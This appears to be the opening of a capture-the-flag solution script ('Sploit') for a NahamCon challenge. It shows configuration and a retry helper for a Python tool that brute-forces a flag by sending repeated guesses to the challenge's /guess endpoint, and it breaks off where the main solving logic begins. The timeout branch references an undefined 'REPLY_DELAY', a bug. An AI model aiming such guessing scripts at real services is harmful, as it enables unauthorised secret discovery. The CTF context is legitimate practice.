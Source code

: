 ## Sploit:
```python
import requests, string, time
# --- Configuration ---
URL = "http://challenge.nahamcon.com:31651/guess"
FLAG_PREFIX = "flag{"
FLAG_SUFFIX = "}"
FLAG_LENGTH_INSIDE_BRACES = 32 # As specified in the challenge: "exactly 32 characters inside the braces"
MAX_RETRIES = 5 # Number of times to retry a request in case of transient errors
RETRY_DELAY = 1 # Seconds to wait before retrying a request

# --- Character Set for Brute-forcing ---
# We'll start with common alphanumeric characters.
# Depending on the challenge, you might need to expand this.
# For CTF flags, lowercase letters and digits are very common.
# Sometimes uppercase letters or special characters are included.
ALPHABET = string.ascii_lowercase + string.digits

# --- Helper Function for Making Requests ---
def make_post_request(guess_payload: str) -> dict | None:
    """
    Sends a POST request to the challenge URL with the given guess payload.
    Handles potential network errors and retries.

    Args:
        guess_payload (str): The full flag guess string (e.g., "flag{...}").

    Returns:
        dict | None: The JSON response from the server if successful, None otherwise.
    """
    headers = {"Content-Type": "application/json"};data = {"guess": guess_payload}
    for attempt in range(MAX_RETRIES):
        try:
            response = requests.post(URL, headers=headers, json=data, timeout=10)
            response.raise_for_status() # Raise an HTTPError for bad responses (4xx or 5xx)
            return response.json()
        except requests.exceptions.HTTPError as e:
            print(f"HTTP error for guess '{guess_payload}': {e}")
            if attempt < MAX_RETRIES - 1:
                print(f"Retrying in {RETRY_DELAY} seconds...")
                time.sleep(RETRY_DELAY)
            else: print("Max retries reached. Giving up on this request.")
        except requests.exceptions.ConnectionError as e:
            print(f"Connection error for guess '{guess_payload}': {e}")
            if attempt < MAX_RETRIES - 1:
                print(f"Retrying in {RETRY_DELAY} seconds...")
                time.sleep(RETRY_DELAY)
            else: print("Max retries reached. Giving up on this request.")
        except requests.exceptions.Timeout as e:
            print(f"Timeout error for guess '{guess_payload}': {e}")
            if attempt < MAX_RETRIES - 1:
                print(f"Retrying in {RETRY_DELAY} seconds...");time.sleep(REPLY_DELAY)
            else:print("Max retries reached. Giving up on this request.")
        except Exception as e:
            print(f"An unexpected error occurred for guess '{guess_payload}': {e}");break # For unexpected errors, break immediately

    return None

# --- Main Automation Logic ---
def solve_challenge():
    """
```
